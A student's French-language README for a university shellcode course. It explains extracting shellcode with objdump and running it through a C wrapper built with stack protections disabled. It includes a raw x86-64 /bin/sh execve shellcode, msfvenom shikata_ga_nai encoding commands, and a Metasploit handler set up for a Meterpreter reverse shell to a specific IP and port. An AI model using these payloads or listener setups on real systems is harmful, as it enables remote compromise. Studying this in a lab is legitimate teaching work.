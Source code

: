 Gaspard PEPIN
ING 3 Cyber Groupe A

Cours sur les shellcodes

Concernant shellcode01.c : 

Pour récupérer le shellcode (très long), j'ai trouvé la commande suivante sur internet utilisant objdump :

objdump -d ./shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'       


Concernant wrapper.c : 

Modifié d'internet, il prend un argument un shellcode qu'il charge en mémoire et l'exécute ensuite.
J'ai du mal à le faire fonctionner même avec des shellcodes très courts.
J'en ai donc trouvé un plus simple mais qui ne fonctionne pas.
Et on le compile avec :
gcc wrapper.c -o wrapper -fno-stack-protector -z execstack

exemple de lancement (ouverture bin/sh) :
./wrapper $(python2 -c 'print("\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")')

Concernant asm32 et asm64 :

Compilable avec ./build.sh < asmX >
Lancement de l'executable avec ./asmX

Afin de voir la valeur des returns, faire echo $?

Pour asm05, il faut avoir asm01 de générer.


Concernant MSF :

Voici les commandes à faire dans le dossier msf pour avoir les shellcodes :

msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm01_32.shellcode < ../asm32/asm01
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm02_32.shellcode < ../asm32/asm02 
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm03_32.shellcode < ../asm32/asm03 
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm04_32.shellcode < ../asm32/asm04 
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm05_x32.shellcode < ../asm32/asm05 
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm06_32.shellcode < ../asm32/asm06 


Pour les reverseShell et bindShell, il faut faire ces commandes dans le terminale host et lancer l'un des deux prg sur la machine cible.

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 7777
set LHOST 176.100.43.89
exploit